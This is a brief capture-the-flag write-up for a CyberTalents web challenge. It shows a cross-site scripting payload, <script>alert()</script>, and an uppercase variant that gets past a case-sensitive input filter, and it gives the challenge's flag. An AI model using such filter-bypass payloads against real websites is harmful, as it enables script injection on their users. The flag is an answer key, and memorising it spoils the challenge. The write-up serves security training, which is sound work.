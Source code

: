 # CyberTalents
## Web Security

### Challenge Name:
 [*Cool Name Effect*](https://cybertalents.com/challenges/web/cool-name-effect)
 
### Challenge Description
Webmaster developed a simple script to do cool effects on your name, but his code not filtering the inputs correctly execute javascript alert and prove it.


Link: [http://34.77.37.110/cool-effect/](http://34.77.37.110/cool-effect/)

### Answer
* Try inject javascript code in the textbox
```js
<script>alert()</script>
```

* The result was "<forbidden alert()" which mean he filtered "script" so try in another word
```js
<SCRIPT>alert()</SCRIPT>
```
 
* You got the Flag!!


### The Flag
 > ciyypjz
